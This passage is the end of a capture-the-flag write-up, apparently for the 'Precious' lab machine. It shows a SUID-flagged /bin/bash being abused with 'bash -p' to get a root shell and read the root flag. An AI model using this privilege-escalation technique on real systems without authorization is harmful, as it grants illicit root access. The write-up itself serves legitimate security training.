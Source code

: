 After seeing the results, you might think that the exploit has not worked, but ig uyou look at `/binbash` binary, you can see that it has `SUID` permission 

So, we can just use `/bin/bash -p` to get `root`

```
henry@precious:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
[REDACTED]
```

So, we can submit the flag, and complete the box!!!
